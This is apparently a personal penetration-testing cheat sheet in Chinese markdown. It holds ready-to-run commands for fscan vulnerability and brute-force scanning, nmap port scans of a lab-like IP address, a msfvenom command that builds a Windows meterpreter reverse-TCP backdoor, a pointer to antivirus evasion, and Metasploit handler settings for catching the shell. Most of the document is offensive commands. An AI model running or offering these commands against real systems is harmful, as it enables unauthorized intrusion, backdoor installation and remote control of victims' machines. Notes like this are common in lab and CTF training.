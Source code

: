 ```yaml
---
aliases:
cssclasses:
tags:
icon: pen-to-square
date:
---
```

## fscan降速版
```fscan
./fscan -hf "big ip-lnut.txt" \
        -t 100 \               # 大幅降低线程数（默认600）
        -num 5 \               # 降低POC扫描速率（默认20）
        -wt 10 \               # 增加Web超时时间（默认5）
        -time 5 \              # 增加常规超时时间（默认3）
        -br 1 \                # 暴力破解线程设为1（默认1）
        -o "fscan_result.txt"  # 输出结果文件
```
## dddd可视化输出
```dddd
./dddd_linux64 -target "big ip.txt" -o "big ip.html"
```
## nmap
### nmap端口粗描
```nmap
sudo nmap -sT --min-rate 10000 -p- 10.129.40.36 -oA nmapscan/ports
```
### nmap端口详扫
```nmap
sudo nmap -sT -sV -sC -O -p80,135,445,1985 10.129.40.36 -oA nmapscan/detail
```
## msfconsole
### msf快捷键
ctrl+z将当前Meterpreter 会话收到后台
### msf生成后门(windows)
```msfconsole
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.123.23 LPORT=7788 -f raw -o shell.raw
```
- 注意：payload--windows/meterpreter/reverse_tcp为32位程序而payload---windows/x64/meterpreter/reverse_tcp​​为64位payload，在监听时要对应否则会导致连接秒断

对上面的后门进行免杀处理
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20251018201139.png)

### msf监听连接
```msf
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp 
set lhost 192.168.123.23 
set lport 444 
exploit -j  # 后台监听,不占用当前命令行
```
- 注意要设置`payload`
- 注意：`payload`--`windows/meterpreter/reverse_tcp`为`32`位程序而`payload`---`windows/x64/meterpreter/reverse_tcp​​`为64位`payload`，在监听时要对应否则会导致连接秒断


## 